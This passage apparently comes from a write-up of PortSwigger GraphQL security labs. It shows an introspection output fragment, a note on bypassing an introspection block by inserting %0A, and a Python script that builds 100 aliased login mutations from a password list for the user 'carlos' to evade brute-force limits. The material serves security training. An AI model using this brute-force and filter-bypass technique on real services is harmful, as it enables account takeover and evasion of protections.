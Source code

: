 ```json
            }
          ],
          "inputFields": null,
          "interfaces": [],
          "enumValues": null,
          "possibleTypes": null
        },
```

- Result of mutation

![image](https://github.com/user-attachments/assets/341dd53d-bc22-475b-b473-d375922a98b3)

---------------------

### Bypassing introspection query `__schema` with %0A

---------------------

- Query-:

![image](https://github.com/user-attachments/assets/32bdde35-149b-4b1d-881e-4bee3a691071)

----------------------

### Bruteforcing with Graphql aliases to bypass bruteforce

----------------------

- Bruteforce limit mechanism can be bypassed by creating aliases to make multiple queries or mutation
- In the case of this lab,I wrote a python script to generate 100 queries.

```python3
#! /usr/bin/env python3
#Generating graphql mutation's aliases script for Portswigger

passwords: list = open("passwords.txt","r").read().splitlines()
queries = open("queries.txt","w")
for num in range(0,100):
    query: str = "    loginme: login(input: {\n        username: \"carlos\",\n        password: \"filter\"}) {\n        token,\n        success\n    }\n".replace("filter",passwords[num])
    query = query.replace("loginme","login"+str(num))
    queries.write(query)
    print(query)

queries.close()
```

- The script writes the result to a file named `queries.txt`

![image](https://github.com/user-attachments/assets/95f7c9a3-bb4b-436e-b1e8-33e806d86d8d)

- Result-:
